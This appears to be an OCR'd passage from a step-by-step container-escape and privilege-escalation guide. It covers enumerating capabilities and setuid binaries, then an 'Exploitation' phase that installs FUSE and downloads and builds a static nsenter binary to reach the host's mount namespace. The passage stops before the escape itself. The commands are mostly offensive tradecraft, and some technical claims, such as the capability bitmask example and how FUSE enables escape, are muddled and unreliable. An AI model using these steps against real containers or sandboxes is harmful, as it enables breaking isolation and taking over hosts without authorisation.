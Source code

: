 **Alternative Approach if `capsh` is not available:**

```bash
cat /proc/self/status | grep CapEff
```

* **Explanation:** This command directly reads the `/proc/self/status` file and filters for the `CapEff` line, which shows the effective capabilities.
* **Why:** Provides a fallback method to check for capabilities if `capsh` is not available.
* **Expected Output:** `CapEff:  0000003fffffffff`, where bits represent capabilities.  A value with bits set for `CAP_SYS_ADMIN` (e.g., `0000000000020000`) means the capability is present.  The bits are hexadecimal.

**Step 4: Check for common privilege escalation vectors (setuid binaries).**

```bash
find / -perm -4000 -ls 2>/dev/null
```

* **Explanation:** This command searches the entire filesystem for files with the setuid bit set. The `2>/dev/null` redirects error messages.
* **Why:**  Setuid binaries, when executed, run with the privileges of the file's owner.  If a vulnerable setuid binary exists, it can be used to escalate privileges.
* **Expected Output:** A list of files with the setuid bit set. Pay close attention to binaries owned by root.  Common examples include `/bin/ping`, `/usr/bin/passwd`, and custom binaries installed in the container.
* **Contribution:** Identifies potential privilege escalation vectors.

**Phase 2: Exploitation**

This phase assumes that the container has `CAP_SYS_ADMIN` and that the root user in the container is NOT mapped to root on the host. If root in container maps to root on the host, the exploitation becomes significantly simpler.

**Step 5: Exploit User Namespace using FUSE and `nsenter`.**

This technique involves mounting a FUSE filesystem inside the container and using `nsenter` to gain access to the host's mount namespace, effectively escaping the container.

**First, ensure you have FUSE installed and available.**

```bash
apt-get update && apt-get install fuse  #For Debian/Ubuntu based containers
yum install fuse # For RHEL/CentOS based containers

```

**Create a directory for the FUSE mount point.**

```bash
mkdir /tmp/hostfs
```

* **Explanation:** Creates a directory that will serve as the mount point for the FUSE filesystem.
* **Why:** FUSE requires a mount point.
* **Expected Output:** No output if successful.

**Compile the `nsenter` binary statically.**

```bash
#Download and compile nsenter (statically)
wget https://github.com/justincormack/nsenter1/archive/refs/tags/1.0.tar.gz
tar -xvf 1.0.tar.gz
cd nsenter1-1.0
./configure --static
make
cp nsenter /tmp

```
